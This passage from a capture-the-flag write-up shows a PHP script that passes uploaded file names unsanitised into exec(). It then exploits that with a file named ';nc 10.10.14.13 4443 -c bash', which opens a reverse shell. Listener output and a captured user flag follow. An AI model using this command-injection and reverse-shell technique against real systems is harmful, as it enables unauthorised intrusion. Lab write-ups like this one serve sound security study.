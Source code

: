 
foreach ($files as $key => $value) {
	$msg='';
  if ($value == 'index.html') {
	continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}
{% endhighlight %}

The important line is following.<br>
Since $value is name of a file in the directory "/var/www/html/uploads/", by creating a file, we can inject this variable.
{% highlight shell %}
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
{% endhighlight %}

This time, launch a netcat listener and create the following file.<br>
We can achieve a reverse shell as a user guly.
{% highlight shell %}
bash-4.2$ touch ';nc 10.10.14.13 4443 -c bash'
touch ';nc 10.10.14.13 4443 -c bash'
{% endhighlight %}
{% highlight shell %}
root@kali:~# nc -nlvp 4443
listening on [any] 4443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.146] 49000
python -c 'import pty;pty.spawn("/bin/bash")'
[guly@networked ~]$ id            
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
[guly@networked ~]$
{% endhighlight %}

user.txt is in the home directory of user "guly".
{% highlight shell %}
[guly@networked ~]$ cat user.txt
cat user.txt
526cfc2305f17faaacecf212c57d71c5
[guly@networked ~]$ 
{% endhighlight %}
